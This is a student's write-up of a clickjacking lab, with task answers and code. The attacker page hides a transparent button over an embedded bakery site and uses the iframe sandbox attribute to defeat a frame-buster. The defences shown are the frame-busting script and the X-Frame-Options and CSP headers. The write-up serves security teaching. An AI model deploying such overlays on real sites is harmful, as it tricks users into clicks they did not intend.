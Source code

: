 # Clickjacking

准备：添加hosts
```
10.9.0.5 www.cjlab.com
10.9.0.105 www.cjlab-attacker.com
```

## Task 1: Copy that site!

1. With the iframe inserted, what does the attacker’s website look like?

![image-20220206220605983](Clickjacking.assets/image-20220206220605983.png)

## Task 2: Let’s Get Clickjacking!

![image-20220206225725189](Clickjacking.assets/image-20220206225725189.png)

2. How does the appearance of the attacker’s site compare to that of the defender’s site?
3. What happens when you click on the “Explore Menu” button on the attacker’s site?
4. Describe an attack scenario in which the style of clickjacking implemented for this Task leads to
undesirable consequences for a victim user.

Answer:

2. 完全一致

3. 跳转到`http://www.cjlab-attacker.com/hacked.html`

   

## Task 3: Bust That Frame!

5. What happens when you navigate to the attacker’s site now?
6. What happens when you click the button?

Answer:

5. 和之前外观一致

6. 跳转到`http://www.cjlab.com/index.html`，不会跳转到`http://www.cjlab-attacker.com/hacked.html`。

## Task 4: Attacker Countermeasure (Bust the Buster)

7. What does the sandbox attribute do? Why does this prevent the frame buster from working?

8. What happens when you navigate to the attacker’s site after updating the iframe to use the sandbox attribute?

9. What happens when you click the button on the attacker’s site?

Answer:

7. 用于限制iframe的内容的行为。
8. 外观与之前一致。
9. 跳转到`http://www.cjlab-attacker.com/hacked.html`。

## Task 5: The Ultimate Bust

![image-20220207113323164](Clickjacking.assets/image-20220207113323164.png)

10. What is the X-Frame-Options HTTP header attribute, and why is it set to “DENY” to prevent the attack?
11. What is the Content-Security-Policy header attribute, and why is it set to “frame-ancestors 'none' ” to prevent the attack?
12. What happens when you navigate to the attacker’s site after modifying each response header (one at a time)? What do you see when you click the button?

Answer:
10. X-Frame-Options指定了该内容是否可以在 `<frame>`, `<iframe>`, `<embed>` 或 `<object>`中显示。设置为DENY表示无论上述何种情况都不能在加载。
11. `frame-ancestors 'none'`表示无论何种情况都不能作为frame。
12. 无法加载`http://www.cjlab.com`的内容。点击按钮后跳转到`http://www.cjlab-attacker.com/hacked.html`。

## 修改后的代码

### attacker

`/var/www/attacker/attacker.html`

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Attacker</title>
        <meta charset="utf-8"/>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
        <link href="attacker.css" type="text/css" rel="stylesheet"/>
    </head>
    
    <body>
        <!-- TODO: place your iframe HERE (Task 1) -->
	<iframe src="http://www.cjlab.com/" sandbox></iframe>        
        <!-- The malicious button's html code has already been provided for you. 
            Note that the button code must come after iframe code-->
        <button onclick="window.location.href = 'hacked.html';">Malicious Button</button>
    </body>

</html>

```

`/var/www/attacker/attacker.html`

```css
iframe {
    /* TODO: add iframe css here (Task 1) */
    border: 0;
    position: absolute;
    height: 100%;
    width: 100%;
}

button{
    /* Given button code for size and shape. You do not need to edit this. */
    position: absolute;
    border: none;
    color: white;
    padding: 35px 35px;
    text-align: center;
    font-size: 40px;
    border-radius: 15px;
    /* end of given button code */


    /* TODO: edit/add attributes below for the malicious button (Task 2) */
    /* You will want to change the button's position on the page and 
       make the button transparent */
    opacity: 0%;
    margin-left: 50px;
    margin-top: 350px; 
    color: white;  /* font color */
    background-color: blue;  /* button's background color */

  }

```

### defender
`/var/www/defender/index.html`

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Alice's Cupcakes</title>
        <meta charset="utf-8"/>
        <link href="https://fonts.googleapis.com/css?family=Montserrat:800|Raleway:300" rel="stylesheet">
        <link href="defender.css" type="text/css" rel="stylesheet"/>
    </head>

    <body>
        <header class="header-wrapper">
            <div class="header-contents">
            <div class="col">About Us</div>
            <div class="col">Menu</div>
            <div class="col">Locations</div>
            </div>
        </header>
    

        <div class="Intro">
            <div class="Intro-container">
                <div class="name">Alice's Cupcakes</div>
                <div class="slogan">Your Favorite Local Bakery</div>

            <!-- Here is the benign attacker-targeted button -->
            <button onclick="window.location.href = 'index.html';">Explore Menu</button>

            </div> 
        </div> 


        <footer> 
            <div class="footer-contents">
            <div class="col">Twitter</div>
            <div class="col">Facebook</div>
            <div class="col">Instagram</div>
            <div class="col">Snapchat</div>
            </div>
        </footer > 


    </body>

    <!-- Frame Busting script to prevent clickjacking -->
    <script>
        window.onload = function() {
            makeThisFrameOnTop();
        };

        function makeThisFrameOnTop() {
            // TODO: write a frame-busting function according to
            // instructions (Task 3)
            if (window.top != null && window.top.location != window.location) {
                window.top.location = window.location;
            }
	}

    </script>

</html>
```

`/etc/apache2/sites-available/apache_defender.conf`

```
<VirtualHost *:80>
    DocumentRoot /var/www/defender
    ServerName www.cjlab.com
#    Header set <Header-name> "<value>";
#    Header set Content-Security-Policy " \
#             <directive> '<value>'; \
#           "
    Header set X-Frame-Options "deny"                           
    Header set Content-Security-Policy " \
              frame-ancestors 'none'; \
              "
</VirtualHost>

```

